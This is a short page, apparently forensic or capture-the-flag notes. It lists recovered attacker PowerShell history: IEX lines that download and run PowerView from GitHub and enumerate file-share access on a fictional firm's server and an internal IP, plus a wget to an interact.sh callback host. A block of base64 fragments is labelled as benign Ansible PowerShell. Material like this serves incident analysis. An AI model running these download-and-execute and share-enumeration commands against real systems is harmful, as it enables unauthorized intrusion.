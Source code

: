 ```
ping files.magnumtempus.finacial
ping files.magnumtempusfinancial.com
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess \\files.magnumtempusfinacial.com
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess -computername files.magnumtempusfinacial.com
get-help invoke-sharefinder
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess -computername 172.16.50.110
wget c88nc6r2vtc00001pg0ggrrksdcyyyyyb.interact.sh
ls
mv .\1.txt .\Desktop\
mv .\2.txt .\Desktop\
mv .\3.txt .\Desktop\
```


**Ansible / Setup Obfuscated Powershell - Not Malicious:**
```
- UABvAHcAZQByAFMAaABlAGwAbAAgAC0ATgBv
- JgBjAGgAYwBwAC4AYwBvAG0AIAA
- UwBlAHQALQBTAHQAcgBpAGMAdAB
- YgBlAGcAaQBuACAAewAKACQAcABhAHQAaAAg
- WwBDAG8AbgBzAG8AbABlAF0AOgA6AEk
```

